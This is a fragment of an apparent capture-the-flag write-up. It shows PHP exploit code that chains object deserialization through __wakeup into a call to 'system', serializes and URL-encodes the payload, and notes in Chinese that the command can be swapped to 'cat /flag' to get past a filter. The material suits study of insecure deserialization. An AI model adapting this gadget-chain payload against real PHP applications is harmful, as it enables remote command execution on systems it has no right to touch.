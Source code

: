 ```php
    {
        if(str_contains($this->age . $this->name,"flag"))
        {
            die("Hacker!");
        }
        $name = $this->name;
        $name($age);
    }

    public function __wakeup()
    {
        $age = $this->age;
        $name = $this->id;
        $name->age = $age;
        $name($this);
    }
}

$pwn = new PersonA();
$pc = new PersonC();
$pc -> name = "system";
$pwn -> name = $pc;
$pwn -> id = "__Check";
$pwn -> age = "ls /";

$payload = serialize($pwn);
echo urlencode($payload);
```

直接改 `$pwn -> age = "cat /flag"` 没过滤这里。
